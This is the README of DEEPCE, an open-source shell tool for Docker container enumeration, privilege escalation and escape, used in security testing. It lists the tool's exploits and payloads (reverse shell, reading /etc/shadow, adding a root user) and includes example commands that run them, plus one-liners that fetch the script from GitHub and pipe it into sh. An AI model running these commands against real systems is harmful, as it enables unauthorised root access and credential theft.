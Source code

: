 # deepce

```
                      ##         .
                ## ## ##        ==
             ## ## ## ##       ===
         /"""""""""""""""""\___/ ===
    ~~~ {~~ ~~~~ ~~~ ~~~~ ~~~ ~ /  ===- ~~~
         \______ X           __/
           \    \         __/
            \____\_______/
          __                        
     ____/ /__  ___  ____  ________ 
    / __  / _ \/ _ \/ __ \/ ___/ _ \   ENUMERATE
   / /_/ /  __/  __/ /_/ / (__/  __/  ESCALATE
   \__,_/\___/\___/ .___/\___/\___/  ESCAPE
                 /_/
```

![ShellCheck](https://github.com/stealthcopter/deepce/workflows/ShellCheck/badge.svg)
![ContainerTests](https://github.com/stealthcopter/deepce/workflows/ContainerTests/badge.svg)
<a href="https://www.buymeacoffee.com/stealthcopter"><img src="https://cdn.buymeacoffee.com/buttons/v2/arial-yellow.png" height="20px"></a>

[![Twitter](https://img.shields.io/badge/-@stealthcopter-%232B90D9?style=for-the-badge&logo=twitter&logoColor=white&label=twitter)](https://twitter.com/stealthcopter)

[Website](https://stealthcopter.github.io/deepce/)

Docker Enumeration, Escalation of Privileges and Container Escapes (DEEPCE)

In order for it to be compatible with the maximum number of containers DEEPCE is written in pure `sh` with no dependencies. It will make use of additional tools such as curl, nmap, nslookup and dig if available but for the most part is not reliant upon them for enumeration.

None of the enumeration should touch the disk, however most of the exploits create new containers which will cause disk writes, and some exploits will overwrite runC which can be destructive, so be careful!

Please see below for a list of the enumerations, exploits and payloads DEEPCE can use. If you have ideas for anymore please submit an issue in github!

# Downloading

DEEPCE can be downloaded onto a host or container using one of the following one-liners. Tip: download to `/dev/shm` to avoid touching the disk.

```bash
wget https://github.com/stealthcopter/deepce/raw/main/deepce.sh
curl -sL https://github.com/stealthcopter/deepce/raw/main/deepce.sh -o deepce.sh
# Or using python requests
python -c 'import requests;print(requests.get("https://github.com/stealthcopter/deepce/raw/main/deepce.sh").content)' > deepce.sh 
python3 -c 'import requests;print(requests.get("https://github.com/stealthcopter/deepce/raw/main/deepce.sh").content.decode("utf-8"))' > deepce.sh  
```

# Support
If you love what I'm doing with Deepce and my other projects, you can now support my work directly! By buying me a coffee ☕, you're not just fueling my caffeine needs – you're helping me dedicate more time to developing and improving these open source projects. Every coffee counts and brings more innovation to the cybersecurity world. Thank you for your support – it means the world to me and the open source community!

<a href="https://www.buymeacoffee.com/stealthcopter"><img src="https://cdn.buymeacoffee.com/buttons/v2/arial-yellow.png" height="50px"></a>

# Screenshots
For more please view the [docs folder](https://github.com/stealthcopter/deepce/tree/main/docs)
![screenshot1](docs/images/ubuntu-install-tools.png "Screenshot 1")

## Enumerations

The following is the list of enumerations performed by DEEPCE. 

- Container ID & name (via reverse dns)
- Container IP / DNS Server
- Docker Version
- Interesting mounts
- Passwords in common files
- Environment variables
- Password hashes
- Common sensitive files stored in containers
- Other containers on same network
- Port scan other containers, and the host machine itself
- Find exposed docker sock

## Exploits

- Docker Group Privilege Escalation
- Privileged mode host command execution
- Exposed Docker Sock

## Payloads

For each of the exploits above payloads can be defined in order to exploit the host system. These include:

- Reverse TCP shell
- Print /etc/shadow
- Add new root user
- Run custom commands
- Run custom payload binaries

# Examples
```bash
# Make the script executable and then run it
chmod +x ./deepce.sh
./deepce.sh 
```

## Exploits
The following examples show the different kinds of exploits that can be performed and the avaliable payloads.

- Exploit a privileged container to create a new root user on the host operating system:
```bash
./deepce.sh --no-enumeration --exploit PRIVILEGED --username deepce --password deepce
```

- Exploit a writable docker sock file in order to print the contents of `/etc/shadow`
```bash
./deepce.sh --no-enumeration --exploit SOCK --shadow
```

- Escalate to root via membership to the docker group on a host and run a custom payload
```bash
./deepce.sh --no-enumeration --exploit DOCKER --command "whoami>/tmp/hacked"
```

# Advanced Usage

It is possible to download and run deepce without touching the disk, however you will be unable to easily set arguments (direct manipulation of variables is possible using export).

```bash
wget -O - https://github.com/stealthcopter/deepce/raw/main/deepce.sh | sh
curl -sL https://github.com/stealthcopter/deepce/raw/main/deepce.sh | sh
```

# Inspiration

There are some great container enumeration/escape scripts and enumeration tools that I've got inspiration from when writing this. However I felt the need to write one purely in `sh` in order to avoid having to install go / ruby dependencies or be reliant on a static binary. I also wanted to be able to perform more enumerations to try to discover what the docker container is as during as test we may end up inside an unknown container. The number of things this script can enumerate got away from me as every time I added something new I thought of more additional things I could add.

- [LinPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)
- [LinEnum](https://github.com/rebootuser/LinEnum)
- [BotB](https://github.com/brompwnie/botb)
- [Harpoon](https://github.com/ProfessionallyEvil/harpoon)

# Resources

Developers looking for Docker security tips
https://github.com/OWASP/CheatSheetSeries/blob/master/cheatsheets/Docker_Security_Cheat_Sheet.md


# Contributing

I welcome pull requests, issues and feedback.

- Fork it
- Create your feature branch (git checkout -b my-new-feature)
- Commit your changes (git commit -am 'Added some feature')
- Push to the branch (git push origin my-new-feature)
- Create new Pull Request
